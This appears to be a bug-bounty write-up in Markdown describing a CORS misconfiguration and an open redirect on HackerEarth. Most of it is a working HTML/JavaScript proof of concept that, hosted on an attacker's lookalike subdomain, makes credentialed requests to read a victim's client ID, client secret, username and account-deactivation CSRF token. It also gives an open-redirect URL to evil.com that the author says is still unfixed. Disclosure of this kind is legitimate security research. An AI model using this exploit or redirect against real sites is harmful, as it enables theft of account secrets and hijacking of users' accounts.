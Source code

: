 ```yaml
---
title:      Stealing secrets tokens and all private info of victim hackerearth account 
date:       2020-07-10 11:31:19
author:     dr3dd
summary:    Stealing secrets tokens of hackerearth account 
categories: Bug-Bounty
thumbnail:  book
password:  h4k3re4rth_h4ck
tags:
 - Bug-Bounty
---
```


Hi all,

I found two bugs in hackerearth. one of them is fixed and other is still not fixed.

### 1. cores misconfiguration (fixed)

When i change the origin header in request to `https://www.hackerearth.com.evil.com` the responce i got is:

```python
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://www.hackerearth.com.evil.com
```

I backend regex onlly check for `www.hackerearth.com` after `https://`. So i made a subdomain of my site `www.hackerearth.com.dr3dd.live` after passing this domain
in request i got the response is:

```python
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://www.hackerearth.com.dr3dd.live
```

We can see `Access-Control-Allow-Credentials: true` for `www.hackerearth.com.dr3dd.live`. So i wrote a small js script to steal secrets tokens of victim.

```html
<!DOCTYPE html>
<html>
<body>

<div>
<h1>Getting hackerearth Client secrets for victim!!!</h1>
<button type="button" onclick="loadDoc()">Get secrets!!!</button>
  <div id="demo1"></div>
  <div id="demo2"></div>
  <div id="demo3"></div>
<button type="button" onclick="get_csrf_token()">You can get any csrf token and make changes in victim account like this is account deactivate csrf token!!!</button>
  <div id="demo4"></div>
</div>

<script>
function loadDoc() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        var parser=new DOMParser();
        var xmlDoc=parser.parseFromString(this.responseText, "text/html").documentElement;
        var clientId = xmlDoc.querySelector('#client-id');
        var clientSecret = xmlDoc.querySelector('#client-secret');
        var username = xmlDoc.querySelector('#change-username');
        document.getElementById("demo1").innerHTML = clientId.innerText;
        document.getElementById("demo2").innerHTML = clientSecret.innerText;
        document.getElementById("demo3").innerHTML = username.innerText.replace('Edit','');;
        
    }
  };
  xhttp.open("GET", "https://www.hackerearth.com/users/profile-settings/", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
function get_csrf_token(){
  var xhttp = new XMLHttpRequest();
    xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        var parser=new DOMParser();
        var xmlDoc= parser.parseFromString(this.responseText, "text/html").documentElement;
        var csrf = xmlDoc.querySelector('#deactivate-form')[0].value;
      document.getElementById("demo4").innerHTML = "csrf for deactivate account : " + csrf;
    }
  };
  var username = document.getElementById("demo3").innerText;
  var url = "https://www.hackerearth.com/deactivate/" + username.replace("Username: ","");;
  xhttp.open("GET", url, true);
  xhttp.withCredentials = true;
  xhttp.send();
}
  
  
</script>

</body>
</html>
```

I have hosted it on `http://www.hackerearth.com.dr3dd.live/cores.html` first button steal secrets token and second one steal csrf tokens of victim.


### 2. Open Redirect 

This one is pretty simple bug. for open redirect go to :

`https://www.hackerearth.com/social-login-complete-page/?redirect=https://evil.com`
